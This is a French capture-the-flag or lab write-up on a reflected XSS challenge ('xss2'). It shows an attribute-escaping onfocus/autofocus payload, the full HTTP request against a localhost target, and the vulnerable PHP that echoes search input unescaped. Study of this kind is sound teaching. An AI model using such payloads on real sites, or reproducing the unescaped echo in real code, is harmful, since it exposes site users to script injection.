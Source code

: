 # xss2

## Exploitation

Le second challenge propose une fonctionnalité de recherche :&#x20;

![](<../../../.gitbook/assets/image (1) (1).png>)

Lorsque je renseigne un mot clé, il n'est pas réfléchi dans le message d'erreur mais est présent en tant que valeur du champ de recherche :&#x20;

![](<../../../.gitbook/assets/image (12) (1).png>)

`value` est un attribut HTML safe, l'injection ne peut se faire directement. Je vais donc préparer ma payload afin de m'échapper de cet attribut puis forger mon attaque. Il y a plusieurs solutions ici mais je choisis de passer par un autofocus `whatever" onfocus="alert(1)" autofocus x="` :&#x20;

```http
POST /xss2/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss2/
Upgrade-Insecure-Requests: 1

search=whatever%22+onfocus%3D%22alert%281%29%22+autofocus+plop%3D%22&submit=Envoyer
```

![](<../../../.gitbook/assets/image (4) (1).png>)

## Analyse du code source

La valeur du paramètre `$keyword`, récupérée depuis la variable `$_POST['search']` est affichée directement grâce à la directive `echo` en tant que valeur de l'attribut HTML `value`. Aucune protection étant en place, l'injection est donc évidente :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }
?>

<input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo $keyword; }?>"
```
